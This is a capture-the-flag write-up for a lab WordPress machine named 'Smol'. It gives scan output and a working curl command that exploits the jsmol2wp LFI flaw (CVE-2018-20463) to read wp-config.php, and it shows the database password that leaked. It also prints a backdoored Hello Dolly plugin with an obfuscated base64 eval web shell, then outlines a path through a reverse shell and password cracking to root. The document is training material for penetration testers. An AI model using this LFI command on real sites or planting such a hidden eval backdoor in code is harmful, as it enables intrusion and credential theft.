








# Smol

## Enemuration

```
 nmap -sVC 10.10.89.149
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 10:05 +0545
Nmap scan report for 10.10.89.149 (10.10.89.149)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://www.smol.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.74 seconds

```


I found out that the site was wordpress site.
So I ran wpscan anf found few things.

```
 wpscan --url http://www.smol.thm/ -e
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://www.smol.thm/ [10.10.89.149]
[+] Started: Sat Jan 25 10:11:23 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.smol.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://www.smol.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://www.smol.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://www.smol.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>
 |  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>

[+] WordPress theme in use: twentytwentythree
 | Location: http://www.smol.thm/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:26 <======================================================> (652 / 652) 100.00% Time: 00:00:26
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:01:36 <====================================================> (2575 / 2575) 100.00% Time: 00:01:36

[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:05 <=======================================================> (137 / 137) 100.00% Time: 00:00:05

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:03 <=============================================================> (84 / 84) 100.00% Time: 00:00:03

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:04 <==================================================> (100 / 100) 100.00% Time: 00:00:04

[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <========================================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] Jose Mario Llado Marti
 | Found By: Rss Generator (Passive Detection)

[+] wordpress user
 | Found By: Rss Generator (Passive Detection)

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] think
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wp
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] gege
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] diego
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] xavi
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jan 25 10:14:08 2025
[+] Requests Done: 3631
[+] Cached Requests: 8
[+] Data Sent: 1003.333 KB
[+] Data Received: 22.836 MB
[+] Memory used: 287.328 MB
[+] Elapsed time: 00:02:45

```

We found out few users.

```
Jose Mario Llado Marti
wordpress user
admin
think
wp
gege
diego
xavi
```


Hmm after running a wpscan again for finding vulnerability.
`wpscan --url http://www.smol.thm/ -e vp --api-token your api token if you have
`

And got this.
``` wpscan --url http://www.smol.thm/ -e vp --api-token api token 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://www.smol.thm/ [10.10.89.149]
[+] Started: Sat Jan 25 10:37:28 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.smol.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://www.smol.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://www.smol.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://www.smol.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>
 |  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>
 |
 | [!] 4 vulnerabilities identified:
 |
 | [!] Title: WP < 6.5.2 - Unauthenticated Stored XSS
 |     Fixed in: 6.4.4
 |     References:
 |      - https://wpscan.com/vulnerability/1a5c5df1-57ee-4190-a336-b0266962078f
 |      - https://wordpress.org/news/2024/04/wordpress-6-5-2-maintenance-and-security-release/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in HTML API
 |     Fixed in: 6.4.5
 |     References:
 |      - https://wpscan.com/vulnerability/2c63f136-4c1f-4093-9a8c-5e51f19eae28
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in Template-Part Block
 |     Fixed in: 6.4.5
 |     References:
 |      - https://wpscan.com/vulnerability/7c448f6d-4531-4757-bff0-be9e3220bbbb
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Path Traversal in Template-Part Block
 |     Fixed in: 6.4.5
 |     References:
 |      - https://wpscan.com/vulnerability/36232787-754a-4234-83d6-6ded5e80251c
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/

[+] WordPress theme in use: twentytwentythree
 | Location: http://www.smol.thm/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Cross-Site Scripting (XSS)
 |     References:
 |      - https://wpscan.com/vulnerability/0bbf1542-6e00-4a68-97f6-48a7790d1c3e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20462
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Sat Jan 25 10:37:46 2025
[+] Requests Done: 37
[+] Cached Requests: 5
[+] Data Sent: 9.838 KB
[+] Data Received: 178.571 KB
[+] Memory used: 266.16 MB
[+] Elapsed time: 00:00:18

```


And I preceeded in with LFI  vulnerability and started to search for file where i can do LFI and also searched in internet for sometime and got this github page.
(https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt)


There was a direct proof of concept of this.
```
The parameter $query of file_get_contents is directly controllable, so php://filter is used to read it. Of course, you can also use file:///etc/passwd to read the absolute path.

POC:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=getRawDataFromDatabase
&query=php://filter/resource=../../../../wp-config.php
```

I said chatGPT to make this more precise to work.
CVE-2018-20463

```
curl -G "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php" \
  --data-urlencode "isform=true" \
  --data-urlencode "call=getRawDataFromDatabase" \
  --data-urlencode "query=php://filter/resource=../../../../wp-config.php"

```

And I was successful.
And could even see /etc/passwd like this.
```
 curl -G "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php" \
  --data-urlencode "isform=true" \
  --data-urlencode "call=getRawDataFromDatabase" \
  --data-urlencode "query=php://filter/resource=../../../../wp-config.php"

<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */


/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';


```

Hmm so we have got the DB password for wpuser.
I tried it on wordpress and it worked.


Great.

Now according to the hint.


We exploited a LFI vulnerability of jsmol2wp plugin of wordpress.
Now we need to use another plugin vulnerability to get RCE.

After doing several attemps to upload shell.
After sometime we decided to do directory bruteforce on /plugins and got /hello.php.

or,
```
===============================================================
[+] Url:                     http://smol.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2025/01/25 08:48:01 Starting gobuster in directory enumeration mode
===============================================================
/wp-content/plugins/akismet/ (Status: 200) [Size: 0]
/wp-content/plugins/hello.php (Status: 500) [Size: 0]
/wp-content/plugins/hello.php/ (Status: 500) [Size: 0]
Progress: 11859 / 13369 (88.71%)===============================================================
2025/01/25 08:48:03 Finished
```

So we did many researched on /akismet and hello.php.
We read it through that previous LFI method.
```
<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/

function hello_dolly_get_lyric() {
    /** These are the lyrics to Hello Dolly */
    $lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, take her wrap, fellas
Dolly, never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, golly, gee, fellas
Have a little faith in me, fellas
Dolly, never go away
Promise, you'll never go away
Dolly'll never go away again";

    // Here we split it into lines.
    $lyrics = explode( "\n", $lyrics );

    // And then randomly choose a line.
    return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
}

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
    eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
    
    $chosen = hello_dolly_get_lyric();
    $lang   = '';
    if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
        $lang = ' lang="en"';
    }

    printf(
        '<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
        __( 'Quote from Hello Dolly song, by Jerry Herman:' ),
        $lang,
        $chosen
    );
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );

// We need some CSS to position the paragraph.
function dolly_css() {
    echo "
    <style type='text/css'>
    #dolly {
        float: right;
        padding: 5px 10px;
        margin: 0;
        font-size: 12px;
        line-height: 1.6666;
    }
    .rtl #dolly {
        float: left;
    }
    .block-editor-page #dolly {
        display: none;
    }
    @media screen and (max-width: 782px) {
        #dolly,
        .rtl #dolly {
            float: none;
            padding-left: 0;
            padding-right: 0;
        }
    }
    </style>
    ";
}

add_action( 'admin_head', 'dolly_css' );
```

After sometime we did base64 decode that base64 strings and got this.


So this is a web shell set by that backdoor hello.php.

And after doing some chatGPT,We found out that we can access it by anywhere under /wp-admin directory.


So that backdoor was running under /wp-admin directory and we can access web shell by anywhere under that wp-admin directory as it is the main web server.

And got the shell by running a reverse shell.



Now lets login on mysql.



After enemurating some time we can get a hashes of all users.
After cracking for some time, we cracked a password of deigo.

After that we can read a ssh key of user think and became think.

After spending lots of time enemurating,we ran linpeas with -a flag.
And got this.


Yeah the password for root was root.

And got the root shell.

Done.
